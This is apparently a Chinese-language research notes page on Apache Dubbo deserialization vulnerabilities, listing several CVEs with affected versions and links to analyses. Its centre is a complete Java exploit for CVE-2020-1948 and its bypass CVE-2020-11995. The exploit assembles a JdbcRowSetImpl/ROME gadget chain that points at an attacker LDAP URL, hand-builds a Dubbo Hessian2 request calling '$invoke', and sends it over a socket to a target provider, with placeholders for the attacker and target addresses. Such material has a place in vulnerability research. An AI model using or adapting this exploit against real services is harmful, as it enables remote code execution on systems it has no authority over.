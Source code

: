 # Dubbo 

>Apache Dubbo 是伪装的、轻量级的Java RPC 服务框架。[RPC服务](https://www.zhihu.com/question/25536695) 
>[默认反序列化利用之hessian2](https://www.anquanke.com/post/id/197658)

### CVE-2019-17564
>spring (spring-web（5.1.9.RELEASE）) 的httpinvoker 可能存在反序列化漏洞 [docs](https://docs.spring.io/spring-framework/docs/5.1.0.RELEASE/spring-framework-reference/integration.html#remoting-httpinvoker)

http://www.lmxspace.com/2020/02/16/Apache-Dubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

https://www.mi1k7ea.com/2021/07/03/%E6%B5%85%E6%9E%90Dubbo-HttpInvokerServiceExporter%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

### CVE-2020-1948
https://www.anquanke.com/post/id/209251
```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

### CVE-2020-11995

CVE-2020-1948的绕过

```
Dubbo 2.7.0 ~ 2.7.8
Dubbo 2.6.0 ~ 2.6.8
Dubbo 所有 2.5.x 版本
```

```java
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;
import marshalsec.util.Reflections;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;

/**
 *  CVE-2020-1948 exp
 *  if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
 *       throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
 *  }
 * 下面有绕过CVE-2020-11995
 * 调用的函数名为 "$invoke"、 "$invokeAsync"、"$echo"三者之一
 */
public class GadgetsTestHessian {

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:43658/ExecObject");
        rs.setMatchColumn("foo");
        Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        Reflections.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        Reflections.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
        //todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("com.threedr3am.learn.server.boot.DemoService");
        out.writeUTF("1.0");
        out.writeUTF("$invoke");//CVE-2020-11995  $invoke,$invokeAsync,$echo
        //todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        out.writeUTF("Ljava/util/Map;");
        out.writeObject(s);
        out.writeObject(new HashMap());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 12345);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
### CVE-2021-25641
>Dubbo Provider即服务提供方默认使用dubbo协议来进行RPC通信，而dubbo协议默认是使用Hessian2序列化格式进行对象传输的,不过可以通过更改dubbo协议的第三个flag位字节来更改为使用Kryo或FST序列化格式来进行Dubbo Provider反序列化攻击从而绕过针对Hessian2反序列化相关的限制来达到RCE。

https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/

```
CVE-2021-25641 利用版本需要判断

一方面dubbo-common必须<=2.7.3版本另一方面fj的版本要<=1.2.49 并且在2.7.4.1的版本中已经更新了fj版本所以不能使用(只是目前)

```
~~可以整理一个fastjson利用gadget~~

### CVE-2021-30179

https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg

**个人认为CVE-2021-30179的主要思路就是Apache Dubbo在处理泛类引用时，提供了多种通过反序列化方式得到对象再生成pojo对象的选择。** 三梦师傅说跟这个思路扩大了反序列化挖掘思路

### Dubbo反序列化RCE利用之新拓展面 - Dubbo Rouge攻击客户端

https://xz.aliyun.com/t/7354

**文章中有一点非常强**
![image](https://user-images.githubusercontent.com/63966847/139078049-28694796-bb21-40fe-9e8d-38d96da29ab8.png)
